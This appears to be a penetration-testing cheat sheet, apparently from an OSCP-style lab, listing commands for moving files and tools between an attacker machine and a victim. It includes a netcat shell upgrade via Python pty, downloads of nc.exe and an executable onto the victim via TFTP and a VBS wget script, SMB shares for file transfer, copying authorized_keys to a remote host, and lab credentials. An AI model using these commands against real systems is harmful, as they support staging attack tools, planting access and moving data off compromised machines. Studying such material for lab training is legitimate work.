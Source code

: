 
Simple Python Server:
python -m SimpleHTTPServer 8080

nc shell upgrade to /bin/bash/
python -c "import pty;pty.spawn('/bin/bash');"


# WGETVBS
cscript wget.vbs http://$me/scsiaccess.exe scsiaccess.exe
                 http://   $tgt    /<source>       <destin>

# PUREFTP:
run script
OR
user: offsec
pass: labL@B123

# TFTP:
ATTACKER:	atftpd --daemon --port 69 /tftp
VICTIM: 	tftp -i $me get nc.exe

# On the other hand if you are on the computer wanting to receive file from a remote computer:
scp username@remote:/file/to/send /where/to/put

# If you are on the computer from which you want to send file to a remote computer:
scp /file/to/send username@remote:/where/to/put
scp ./authorized_keys thedude@$me:/tmp/

ssh-keygen -R [hostname]

# prep and SMB server
smbserver.py ED209 /root/labs/31ralph

# on the victim tranfer a file via SMB
net view \\$tgt

# move, dir, or copy
dir \\$me\ED209
# Copy to the drive
Copy file.txt \\$me\ED209\
